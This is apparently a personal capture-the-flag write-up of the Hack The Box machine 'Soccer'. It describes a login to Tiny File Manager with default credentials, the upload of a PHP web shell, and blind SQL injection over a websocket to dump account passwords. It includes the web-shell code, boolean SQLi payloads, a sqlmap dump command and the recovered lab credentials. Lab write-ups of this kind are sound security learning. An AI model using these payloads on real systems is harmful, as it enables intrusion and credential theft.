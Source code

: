 # Soccer

Nmap shows open ports: 22, 80 and 9091.

I can't find anything interesting on 9091 for now, so I'll leave it until I think I might need it. Although it looks like a node js app.

Wfuzz doesn't find anything on port 9091 either, but it did find /tiny on port 80:

```
000018127:   301        7 L      12 W       178 Ch      "tiny"                                   
```

I visit http://soccer.htb/tiny. It seems to be a file manager written in PHP according to the docs on github.

I try running sqlmap on the login form, but sqlmap doesn't find injections here. Went on the Tiny docs to browse around and stubled upon default credentials: admin:admin@123, and voila! that gave me admin access!

I can see files related to the website as well as to the file manager, and in the bottom right corner I can see which version was running:

Tiny File Manager 2.4.3

A quick google for "Tiny File Manager 2.4.3" and gitub pulls through with a POC: https://github.com/febinrev/tinyfilemanager-2.4.3-exploit/blob/main/exploit.sh

Looks like I can append &upload to the url and upload something to the server.

http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload

I thought I'd try with a reverse shell first:

```
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

And connection established! Let's see who we can pivot to:

```
www-data@soccer:/tmp/nscp$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
```

Looks like user `player` is the next target! Time for some privilege escalation!



```
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1105/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      1105/nginx: worker  
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```

nginx config:
server {
        listen 80;
        listen [::]:80;
        server_name soc-player.soccer.htb;
        ...
}


subdomain soc-player.soccer.htb

sqlmap? not at default level anyway

nothing for registering either - default values

something about websockets with the /check endpoint

can kind of sql inject:

```
{"id":"83132 and true and false; -- -"}
```

But what does that give me? blind sqli with no feedback???A

I guess since it can only return a boolean statement, I should be able to make a statement on the right-hand side and get a response saying it's true or not - as long as I use an id that exists int he left side.

Still not sure how this can be exploited as it seems I would have to make some crazy guesses about th e.

It seems there are ways to run sqli tests with sqlmap, but you need to set up a proxy to convert between websocket and http - doesn't sound like something you'd do for an easy box.

But I don't know what the point of that would be either - I have already confirmed that there is an injection. I just don't know what I can gain from exploiting it yet.

# After some consideration and pondering

I will continue with enumeration. Am using these payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-blind

I already know it's mysql from the netstat -tulpn output.

Getting version number with query:

```
85511 and substring(version(),1,1)=8
```

Version: 80 (assuming it's 8.0)

Current table columns:

```
93775 order by 1,2,3
```

Adding a fourth order by fails

```
80045 and substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1) >= 'a'
```

Spells `accounts`, so I guess that's the name of the table. How handy. I wonder if I can enumerate the columns too:

```
88451 and substring((select column_name from information_schema.columns where table_name='accounts' limit 0,1), 1, 1) >= 'u'
```

This query returns TRUE until I hit `v`, which means the last character is `u`. Most likely the full column name is `username` or `user`, but let's finish the enumeration with the same logic while trying new characters and incrementing the substring counter at the same time.

```
user (fails with n at position 5)
No other columns it looks like
```

Column number two:

```
83639 and substring((select column_name from information_schema.columns where table_name='accounts' limit 1,1), 1,1) >= 'a' ...
```

And so on... It became very tedious, so I wrote a python script to do the enumeration for me. It's not exactly pretty, but it's good enough to get the job done. See `soc.py` for the full script.

In the end, this is what I came up with: there is only one table called `accounts` and it has the following columns:

```
['user', 'host', 'current_connections', 'total_connections', 'max_session_controlled_memory', 'max_session_total_memory', 'id', 'email', 'username', 'password']
```

Among these, I'd say that `username` and `password` are the most interesting ones!

Let's write an injection query to guess the characters of the username in the first row:

```
123 and substring((select username from accounts limit 0,1), 1, 1) = 'a'
```

Using the same technique as with the soc.py script, I get the following username and password:

```
player:playerofthematch
```

Let's try ssh'ing! I recall this user was in /etc/passwd

No dice. My script does not contain numbers - only letters and punctiation. I'll add numbers as well!

This expands the password to: `playerofthematch2022`. I'll try that one.

... Still not good enough! Access denied.

<time passes>

I spent a bit of time googling, and was 99% sure I had the right password. So I found a writeup, and they had found the password to be PlayerOfTheMatch2022.

My home-brewed script had found the same password, but just all lowercase!

So I googled a bit more about mysql case sensitive string comparisons, and it turns out it sucks. For some reason, 'a' and 'A' compare to the same!? At least the way I'm doing it.

I checked out a few writeups up until this point - and they all just used sqlmap which gives them the username and password without much work other than setting up a proxy.

So, I'll do the same! I am using the script here: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

, and amending it so that it fits my needs and works with my auth flow already.

# Some time passes

I had to try a few different times since the `--passwords` option for sqlmap could not really deal with clear-text password, I think?

I ended up dumping the database instead:

```
sqlmap -u "http://localhost:8081/?id=1" --dbms=mysql --dump
```

And viewing the dump file gives me the correct password! Progress! This is a gotcha for another time where I have to deal with blind mysql injection!

player:PlayerOftheMatch2022








